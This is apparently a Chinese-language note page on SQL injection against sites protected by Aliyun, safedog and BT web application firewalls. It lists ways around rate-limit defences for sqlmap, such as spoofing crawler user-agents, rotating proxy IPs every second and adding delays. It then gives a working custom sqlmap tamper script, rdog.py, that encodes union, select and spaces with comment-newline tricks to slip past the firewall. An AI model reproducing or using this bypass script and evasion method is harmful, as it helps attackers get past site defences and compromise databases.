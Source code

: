 

阿里云  + safedog  + BT waf



## SQL 注入

### 注入方式

#### 手工注入

简单、不需要考虑CC 防护

#### 工具注入

sqlmap   速度很快，会触发CC防御

safedog CC 绕过

user-agent

--delay

代理池：换ip



CC 拦截绕过

user-agent：伪装成爬虫白名单

代理池：每秒钟换ip

延时设置： --delay



#### aliyun + safedog 演示

sqlmap工具+代理 +tamper （自写注入规则）

--tamper

rdog.py

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""


from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload,**kwargs):
    retVal =""
    if payload:
        payload = payload.replace("union","%23a%0aunion")
        payload = payload.replace("select","/*!4457select*/")
        payload = payload.replace("%20","%23a%0a")
        payload = payload.replace(" ","%23a%0a")
        payload = payload.replace("database()","database%23a%0a()")
    return payload

```
